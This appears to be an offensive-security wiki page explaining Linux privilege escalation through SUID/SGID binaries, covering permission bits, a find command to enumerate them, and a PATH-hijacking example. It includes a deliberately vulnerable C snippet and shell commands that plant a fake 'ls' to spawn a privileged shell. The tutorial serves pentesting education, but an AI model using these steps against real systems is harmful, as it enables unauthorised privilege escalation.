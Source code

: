 # SUID/SGID binaries

## Theory

On UNIX-like systems, binaries have permissions, just like any other file. Some of them often are over-privileged, sometimes allowing attackers to escalate their privileges on the system. The common permissions are **read**, **write**, **execute.** The extended ones are **setuid**, **setgid**, **sticky bit**, and so on.

The setuid/setgid (SUID/SGID) bits allows the binary to run with the privileges of the user/group owner instead of those of the user executing it. They can be spotted with the `s` or `S` permission in the file user or group owner permissions (i.e. `---s--s---`). When the file permissions features an uppercase `S` instead of a lowercase one, it means the corresponding user or group owner doesn't have execution rights.

{% hint style="warning" %}
**Limitations**

* Just like capabilities, setuid and setgid bits are unset when a file is copied with `cp` or when its content changes.
* Some partitions of the UNIX file system can be mounted with the `nosuid` option. In this case the setuid and setgid bits are ignored for binaries placed inside those partitions. It is a common good practice for tmpfs partitions like `/tmp` or`/run`. Searching the `/proc/mounts` pseudo-file for a `nosuid` flag can help find these partitions.
{% endhint %}

## Practice

All suid or sgid-enabled files the user can have access to can be listed with the following command.

```bash
find $starting_path -perm -u=s -type f 2>/dev/null

# Or in octal mode
find $starting_path -perm -4000 -type f 2>/dev/null
```

Vulnerable programs with these permissions are often targeted by attacker to obtain the user (for setuid) or group (for setgid) privileges. There are many techniques that attackers can use to hijack these binaries and obtain the associated rights.

### Living of the land

Using standard binaries features to bypass security restrictions is called Living off the land.

{% content-ref url="living-off-the-land.md" %}
[living-off-the-land.md](living-off-the-land.md)
{% endcontent-ref %}

### Relative path calls

If a SUID/SGID binary makes calls to programs using relative paths instead of absolute paths, attackers can try to make the binary run a program controlled by the attacker. Let's take this vulnerable program as an example :&#x20;

{% code title="vuln.c" %}
```c
int function(int argc, char *argv[]){
/* ... */
    system("ls") // instead of system("/usr/bin/ls")
/* ... */
}
```
{% endcode %}

In the example above, the SUID/SGID binary calls the `ls` program using a relative path. An attacker can try to create a `ls` program somewhere he has write access to and edit the `PATH` environment variable so that his custom program is executed when running the SUID/SGID binary.

```bash
mkdir -p /tmp/attacker
cd /tmp/attacker && printf '#!/bin/sh\nexec /bin/sh\n' > /tmp/attacker/ls
chmod +x /tmp/attacker/ls 
PATH=/tmp/attacker:$PATH ./vuln
```

When the `vuln` program will be executed, the malicious `ls` program will be called and a shell will be opened.&#x20;

### Binary exploitation

In some cases, the binary that has SUID/SGID permissions can be reverse-engineered and attackers find ways to change the execution flow of that program to make it run something else (e.g. [buffer overflow](broken-reference), [use-after-free](broken-reference), ...).

## Resources

{% embed url="https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/" %}
